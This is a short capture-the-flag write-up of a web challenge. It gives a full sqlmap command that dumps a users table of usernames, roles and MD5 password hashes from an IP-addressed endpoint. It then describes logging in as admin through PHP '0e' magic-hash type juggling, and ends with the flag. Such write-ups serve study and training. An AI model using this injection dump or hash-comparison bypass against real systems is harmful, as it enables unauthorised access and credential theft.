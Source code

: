 SQL injection

I used sqlmap to get the data:

```
http://163.172.176.29/WALL/index.php (POST)  # /usr/bin/sqlmap -u http://163.172.176.29/WALL/index.php --data=life=JonSnow&soul=234 --user-agent=random --threads=10 -T users -C password,role,username --dump


Database: SQLite_masterdb
Table: users
[3 entries]
+----+----------------------------------+--------+---------------+
| id | password                         | role   | username      |
+----+----------------------------------+--------+---------------+
| 1  | 8bed707bb9c0a948fa0c465495fc8014 | normal | JonSnow       |
| 2  | 0e565041023046045310587974628079 | admin  | LordCommander |
| 3  | 6a1def57895118aed6fd730d0dd84ce3 | normal | Targaryen     |
+----+----------------------------------+--------+---------------+

```

Noticed that the MD5 hash started with '0e' and in the sourcecode we could see that the strings were compared with '==' so I used 'LordCommander:QNKCDZO' to login and got the flag: CTF{type_juggling_and_blind_sql_are_worth_a_fun_240610708}

How could I login with 'QNKCDZO', read this post @ stackoverflow: https://stackoverflow.com/questions/22140204/why-md5240610708-is-equal-to-md5qnkcdzo



